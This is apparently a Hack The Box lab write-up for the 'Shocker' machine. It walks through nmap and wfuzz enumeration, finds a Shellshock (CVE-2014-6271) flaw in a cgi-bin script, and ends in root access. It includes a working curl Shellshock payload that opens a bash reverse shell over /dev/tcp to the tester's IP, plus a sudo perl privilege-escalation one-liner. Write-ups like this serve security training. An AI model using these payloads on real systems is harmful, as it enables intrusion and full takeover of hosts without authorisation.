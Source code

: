 ```yaml
---
title: Shocker Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

The nmap reports that the machine has a web page and SSH service open.
```ruby
# Nmap 7.93 scan initiated Sun Jan 29 13:11:27 2023 as: nmap -p80,2222 -sCV -oN targeted 10.129.228.21
Nmap scan report for 10.129.228.21
Host is up (0.061s latency).

PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 c4f8ade8f80477decf150d630a187e49 (RSA)
| | 256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_ 256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 29 13:11:36 2023 -- 1 IP address (1 host up) scanned in 8.57 seconds
```

So let's fuzz it. Using dirbuster, we didn't find any subdomains. Let's try looking for files on it.

```shell
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/wfuzz/general/medium.txt http://10.129.228.21/FUZZ/
```

We found cgi-bin and cgi-bin/ but they are forbiden. Anyway, let's fuzz them anyway BUT THIS TIME LOOKING FOR FILES, since CGI-BIN usually stores files.

```shell
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.129.228.21/cgi-bin/FUZZ.FUZ2Z         
```

We see that we found a user-sh file so let's investigate it. It has no information, but when you find this kind of thing (sh-files inside the cgi-bin) you can try a shellshock.

So let's see if our page is vulnerable to shell-shock:
```shell
sudo nmap --script http-shell-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.129.228.21

# --script http-shellshock -> To use the shell-shock script
# --script-args -> Pass arguments to the script
# uri =/ -> Specify the path where user.sh resides
```

And it reports this:
```ruby
PORT STATE SERVICE
80/tcp open http
| http-shellshock: 
| VULNERABLE:
| HTTP Shellshock vulnerability
| State: VULNERABLE (Exploitable)
| IDs: CVE:CVE-2014-6271
| This web application might be affected by the vulnerability known
| as Shellshock. It seems the server is executing commands injected | via malicious HTTP headers.
| via malicious HTTP headers.
|             
| Disclosure date: 2014-09-24
| References:
| http://www.openwall.com/lists/oss-security/2014/09/24/10
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
| http://seclists.org/oss-sec/2014/q3/685
|_ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

## User exploit

Now that we know it is vulnerable, we can apply a shell-shock attack.

By applying this command, we send a reverse shell to ourselves

```shell
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.38/443 0>&1" http://10.129.228.21/cgi-bin/user.sh
```

## Root Exploit

Doing sudo -l, we see that we can run perl as root, so let's look for a way to do the priv. esc. in gtfobins

We find the following command:
```shell
perl -e 'exec "/bin/sh";'
```

so we run it as sudo and we are root.

